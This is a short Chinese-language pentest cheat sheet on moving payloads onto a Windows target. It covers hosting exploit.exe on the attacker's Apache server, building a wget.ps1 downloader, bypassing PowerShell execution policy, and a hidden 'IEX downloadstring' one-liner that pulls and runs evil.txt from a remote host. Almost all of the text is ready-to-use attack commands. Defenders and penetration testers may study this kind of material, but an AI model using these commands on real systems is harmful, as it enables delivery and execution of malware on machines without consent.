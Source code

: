 攻击端起 http 服务
```bash
cp exploit.exe /var/www/
service apache2 start
```

在目标机执行 vb 命令,会生成 wget.vbs
```bash
dir wget.vbs
cscript wget.vbs http://<kali-ip>/exploit.exe (要下载的文件)exploit.exe(保存成的文件名)
```

**powershell**

同样,攻击端起 http 服务

```bash
echo $storageDir =$pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<kali-ip>/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
在目标机执行 powershell 命令,会生成 wget.ps1
目标机执行:
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

---

或使用下面这种方法

```powershell
$p = New-Object System.Net.WebClient
$p.DownloadFile("https://img.alicdn.com/tps/TB1XLjqNVXXXXc4XVXXXXXXXXXX-170-64.png","D:\Temp\4.png")
```

```
powershell .\test.ps1
```

远程下载文件保存在本地
```
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/1/evil.txt','evil.exe')
```

有的时候 PowerShell 的执行权限会被关闭，需要使用如下的语句打开。
```
powershell set-executionpolicy unrestricted
```

远程执行命令
```
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.1/1/evil.txt'))"
```
